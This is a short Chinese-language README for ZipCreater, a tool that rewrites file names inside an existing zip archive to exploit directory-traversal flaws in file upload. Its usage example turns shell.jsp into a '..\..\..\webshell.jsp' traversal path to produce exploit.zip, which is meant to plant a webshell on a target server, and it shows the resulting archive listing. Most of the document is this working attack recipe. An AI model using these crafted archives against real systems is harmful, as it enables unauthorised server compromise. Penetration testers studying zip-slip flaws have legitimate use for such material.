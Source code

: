 ## ZipCreater

ZipCreater主要应用于跨目录的文件上传漏洞的利用，它能够快速进行压缩包生成，[evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py)不支持修改已有的压缩包，但ZipCreater可以。

使用方式：

假设payload.zip文件压缩内容如下：

```
1.txt
2.txt
shell.jsp
```

使用ZipCreater可以将shell.jsp的压缩文件名进行更改：

```
$ zipcreater -dest /tmp/exploit.zip -source /tmp/payload.zip -path '..\..\..\..\..\..\webshell.jsp'
```

exploit.zip内容如下：

```
1.txt
2.txt
..\..\..\..\..\..\webshell.jsp
```


注：ZipCreater只能修改shell.jsp，你可以根据它来修改成自己想要的程序。


